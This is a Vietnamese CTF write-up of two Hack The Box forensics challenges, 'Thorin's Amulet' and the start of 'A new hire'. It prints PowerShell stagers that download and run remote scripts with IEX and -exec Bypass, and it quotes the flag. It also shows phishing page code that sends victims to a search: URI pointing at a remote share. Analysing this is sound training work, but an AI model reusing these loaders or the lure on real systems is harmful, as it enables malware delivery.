 ![image](https://github.com/user-attachments/assets/94a89594-6f36-4233-9bcf-da33d5406dc2)

# _Thorin’s Amulet_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/1f8fd6b4-c229-4ca2-aa4e-ce5120d5db9e)

Nhận được file ps1

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Decode base64 nhận được 1 đường link, thử truy dùng port để truy cập nhưng kh đc

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Đọc kĩ lại mô tả thì thấy có NOTE

> Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

Mình dùng kali để add IP và domain vào /etc/host/

![image](https://github.com/user-attachments/assets/639b3022-3acc-40ac-be10-345154933c52)

Truy cập thử, thì nhận được file ps1 tiếp

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Lệnh trên thực hiện tải file ps1 và chạy với lệnh Bypass, muốn xem file có gì thì mình dùng curl kết hợp với KEY xác thực

![image](https://github.com/user-attachments/assets/f404de2a-bac1-4d15-a224-45825120d93a)

Decode là nhận được flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

# _A new hire_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/e9725ec1-0825-45f3-b533-a3cb000b9160)

Tiếp tục là file email.eml, mình mở bằng Notepad 

![image](https://github.com/user-attachments/assets/291d60c8-f0a1-41fa-860e-fcc4ffbf43ca)

Hmm khá giống với thử thách trước, add IP và domain vô /etc/hosts/

Truy cập http://storage.microsoftcloudservices.com:[PORT]//index.php

![image](https://github.com/user-attachments/assets/05a439ab-318b-4540-b8f9-47677819ce09)

Xem source, chú ý đến đoạn sau

```html
  <div class="blur-overlay">
    <button class="view-button" onclick="getResume()">View Full Resume</button>
  </div>
  <script defer="defer">
    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
  </script>
```
